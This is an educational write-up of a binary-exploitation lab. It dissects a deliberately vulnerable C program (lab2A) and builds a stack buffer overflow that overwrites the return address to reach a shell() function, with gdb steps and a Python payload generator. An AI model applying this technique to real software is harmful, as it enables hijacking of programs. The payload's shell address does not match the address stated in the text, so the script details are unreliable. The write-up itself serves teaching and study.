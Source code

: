 # lab2A.c analysis
When we start the executable, we get the option to enter a word up to 10 times before the terminal sends the message: 
> Not authenticated. Here are the first characters from the 10 words concatenated: {concatinated chars}

## int main()
When we take a look at the code we see the 3 functions `main`, `concatenate_first_chars` and `shell`.

The purpose of the first block called in the main function is to exclude parameters being passed.
```c
if(argc != 1) 
{
    printf("usage:\n%s\n", argv[0]);
    return EXIT_FAILURE;
}
```
After that `concatenate_first_chars()` is being called and the program ends.
```c
concatenate_first_chars();
printf("Not authenticated\n");
return EXIT_SUCCESS;
```
## void concatenate_first_chars()
At the start of the function we create a struct that includes the `word_buf` we will write to it whenever we enter a word, the iterator variable `i` for the for-loop, the pointer `cat_pointer` at which a new element will be added to the array of concatenated chars and the array `cat_buf` itself.
```c
struct {
    char word_buf[12];
    int i;
    char* cat_pointer;
    char cat_buf[10];
} locals;
```
Then we´ll iterate through the for-loop till `i` is equal to 10. The input itself, we´ll grab with the `fgets()` function. `fgets()` writes to the array `word_buf` and takes a max input of 16 characters from `stdin`. The program fails when we enter a not valid input or `\n`, otherwise it will increase the `cat_pointer`.
```c
for(locals.i=0; locals.i!=10; locals.i++)
{
    if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
    {
        printf("Failed to read word\n");
        return;
    }
    // Copy first char from word to next location in concatenated buffer
    *locals.cat_pointer = *locals.word_buf;
    locals.cat_pointer++;
}
```
At the end it will `print` the concatenated characters.
## shell()
This function starts a shell. Our goal will be to call this function.

# Finding the buffer overflow
Since I´m new to exploiting vulnerabilities in binaries my first step was to find out what are common ways buffer overflows get into our code in the first place. One of functions that were mentioned was the `fgets()` function. The use of fgets() is not a guarantee for a buffer overflow, but it can happen if done carelessly.
## Finding a buffer overflow in fgets()
To see if `fgets()` is vulnerable we have to take a closer look on what the function does exactly:
Our `fgets()` lets us enter `stdin` with the max size of 16 characters and writes it to `word_buf`. So if we can overflow something it should be `word_buf`. `word_buf` has a max length of 12 characters but `fgets()` writes up to 16 characters. So we can actually overflow `word_buf` and start thinking about if and how we can exploit that.
## Planning the exploit
Our end goal is to call the `shell()` function. By gaining access to just those few extra bytes we can manipulate we cant call `shell()`. A way we could achieve that is by corrupting the return address of `concatenate_first_chars()`.
> !! A function can be called from different places in the code. To know from which place the function was called the return address will be stored on the stack. By overwriting this address to the address of the `shell()` function after we´ll jump to `shell()` and not `main()` after we leave `concatenate_first_chars()`

To make further progress with our exploitation we should analyse what data we can manipulate with our current overflow. For that it makes sense to see how the stack actually looks like.

Since the variables are all inside one struct their order is actually deterministic. The first 12 bytes are reserves for `word_buf` then 4 byte for `i`, 4 bytes for `cat_pointer` and then 10 bytes for `cat_buf`.

> !! This challenge is done with a 32-bit executable. If it would´ve been done with 64-bit executable the sizes might change.

The next thing in our stack is `i`. So with our current overflow we can manipulate the state of `i`, which brings us to the next stage of the exploit.

Because we can control what `i` is, we can iterate as much as we want though the for-loop. The next step is to think about how we can exploit this new unintended behavior.

When taking a closer look on what happens we can see, that at the end the first byte from our input gets appended to the `cat_buf` without checking if it´s out of bounds. With that we found another buffer overflow to gained unrestricted control over the stack since we can run the for loop as long as we want therefore we can add a byte each iteration.

The return address is always the last thing on the stack. So now we have the tool to change the return address to our desired one.

# Executing the exploit
A short summarization on what we want to do to successfully change the return address.
With our first input we want to overflow `word_buf` and corrupt `i` so we can iterate though the for-loop as much as we want. Then we´ll enter single characters till `cat_buf` is overflown. After that, we continue filling `cat_buf` with data. After a certain amount we´ll reach the address at which the return address is stored. Now we´ll enter the desired address byte by byte and then we´ll enter a `\n` to escape the for-loop and successfully call the `shell()`.
## python script to generate payload
The 2 things we have to figure out before writing a script to generate the payload is the address of `shell()` to be able to call it and we have to figure out how much space to fill is between `cat_buffer` and the return address.

We figure the address of `shell()` out by debugging it:

> gdb ./vulnerableExecutable

> info functions 

to see the addresses of the functions. My `shell()` is at `0x080486fd` for example.

To figure out what the state of our stack is when we´re doing our overflow, we have to set a breakpoint at the relevant position, run the executable in debug mode and read out the right register.

> disassemble concatenate_first_chars

**pick the desired position for example after the `fgets()` call:**
> break *0x0804875d 

Your address can be different!

> run

> x/24wx $esp

![](src/StackSnapshot.png)
> bt

![](src/find_ret_ptr.png)
Locate where the bytes you entered were stored and check where the return address shown in the backtrace matches with the value in the register. Then count the bytes you´ll have to overwrite to reach the return address.

We have to write 19 bytes of data to reach the return address and then the next 4 bytes will be the new address.
```python
corrupt_i = b"\xaa"* 13 + b"\0a"
padding = b"\xaa\x0a"*23
shell_address = b"\x5d\x0a\x87\x0a\x04\x0a\x08\x0a"
payload = corrupt_i + padding + shell_address + b"\x0a"
with open("payload","wb") as file:
    file.write(payload)
```

Then we create the payload:
> python genPayload.py

And pipe the input:
> (cat payload; cat) | ./vulnerableExecutable

This is done so the `EOF` signal from our payload doesnt get passed into our new shell but into our cat so the shell doesnt exit.